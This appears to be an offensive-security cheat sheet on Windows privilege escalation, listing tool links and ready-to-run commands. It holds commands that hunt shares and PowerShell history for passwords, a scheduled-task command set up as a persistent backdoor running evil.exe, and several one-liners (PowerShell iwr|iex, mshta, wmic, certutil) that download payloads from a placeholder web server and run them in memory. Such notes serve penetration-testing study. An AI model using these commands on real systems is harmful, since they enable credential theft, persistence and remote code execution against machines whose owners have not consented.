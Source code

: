 # Windows Privilege Escalation

https://book.hacktricks.xyz/windows/windows-local-privilege-escalation https://www.ired.team/offensive-security-experiments/offensive-security-cheetsheets

## Find interesting Strings on shares

findstr.exe /S /I /C:"/user" \*.bat \*.txt \*.ps1 \*.xml \*.vbs\
findstr.exe /S /I "pw: password passwort" \*.bat \*.txt \*.ps1 \*.xml \*.vbs\
findstr.exe /S /I "ConvertTo-SecureString" \*.ps1

## Check Powershell history

type C:\Users\ak\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost\_history.txt cat (Get-PSReadlineOption).HistorySavePath cat (Get-PSReadlineOption).HistorySavePath | sls passw

https://github.com/frizb/Windows-Privilege-Escalation

https://github.com/GhostPack/Seatbelt

Applocker bypass: https://github.com/api0cradle/UltimateAppLockerByPassList/blob/master/Generic-AppLockerbypasses.md

**PrivsecCheck Powershell Script** https://github.com/itm4n/PrivescCheck

**JAWS Enum Script** https://github.com/411Hall/JAWS

PowerUp neu: https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc powershell Type $Env:PSModulePath

https://oscp.securable.nl/privilege-escalation https://www.bytefellow.com/windows-privilege-escalation-cheatsheet-for-oscp/ https://steflan-security.com/windows-privilege-escalation-cheat-sheet/

WSUS https://www.gosecure.net/blog/2020/09/03/wsus-attacks-part-1-introducing-pywsus/

https://www.ired.team/offensive-security/privilege-escalation/unquoted-service-paths https://book.hacktricks.xyz/windows/active-directory-methodology

Windows Certificate Dialog Elevation of Privilege Vulnerability https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2019-1388 => Tool hhupd

Persistent back door schtasks /create /sc minute /mo 10 /tn "TaskName" /tr C:\Windows\system32\evil.exe

## Download Payload & execute in Memory

powershell -exec bypass -c “(New-Object Net.WebClient).Proxy.Credentials=\[Net.CredentialCache]::DefaultNetworkCredentials;iwr(‘http://webserver/payload.ps1’)|iex”

mshta vbscript:Close(Execute(“GetObject(“”script:http://webserver/payload.sct””)”)) mshta \webdavserver\folder\payload.hta mshta http://webserver/payload.hta Payload written on disk: IE local cache

wmic os get /format:”https://webserver/payload.xsl

certutil -urlcache -split -f http://webserver/payload payload

